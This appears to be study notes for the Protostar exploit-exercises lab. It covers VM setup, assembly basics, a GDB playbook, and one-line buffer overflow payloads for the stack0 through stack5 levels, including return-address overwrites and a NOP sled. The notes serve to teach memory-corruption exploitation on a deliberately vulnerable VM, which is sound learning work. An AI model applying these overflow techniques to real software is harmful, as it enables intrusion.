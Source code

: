 [Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
### SSH into VM
> 1. In VM:
>   + If using vmware, make sure `Connect at Power On` is toggeled on in networking section
>   + Make sure VM networking is set to `Host Only`
>   + Start the VM, select `Live`, and login
>    - username: user
>    - password: user
>   + Enter command: `ip a`
>   + Look for ip: `inet ###.###.###.###/24`
>                         ^the # symbols are the ip
> 2. On Host:
>   + $ ssh user@<ip> -p 22
>    - If connection is denied due to a bad RSA key, you may need to delete
>      the last line of `/home/<username>/.ssh/known_hosts` and run the ssh command again
>   + Enter password: user


### Assembly Data Structures
+ WORD  (16 bits/2 bytes) - unsigned short
+ DWORD (32 bits/4 bytes) - unsigned int
+ QWORD (64 bits/8 bytes) - unsigned long
+ PTR   (pointer)         - like c pointer


### Assembly
+ leave
 - mov ebp, esp    # ebp = esp
 - pop EBP
+ CC
 - Used for calling the debug exception handler


### GDB Snippet Playbook
> 1. See assembly in intel syntax
>    `(gdb) set disassembly-flavor intel`
> 
> 2. See assembly instructions of the a function
>    `(gdb) disassemble <function_name>`
>    
> 3. See the memory mappings
>    `(gdb) info proc mappings`
>
> 4. See current instruction
>  + i stands for instruction
>    `(gdb) display/i $pc`
>       or
>    `(gdb) x/i $pc`
>
> 5. Set breakpoint in a specific offset inside fucntion
>    `(gdb) b *(function_name+offset)`
>   
>   Example: `(gdb) b *(main+33)`
>
> 6. Print registers, subset of stack, and upcoming intructions
>    after each step
>   
>    `(gdb) define hook-stop`
>    `> python print '------------------------'`
>    `> info registers`   #prints registers
>    `> python print '------------------------'`
>    `> x/24wx $esp`      #prints stack
>    `> python print '------------------------'`
>    `> x/5i $eip`        #prints instructions

[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M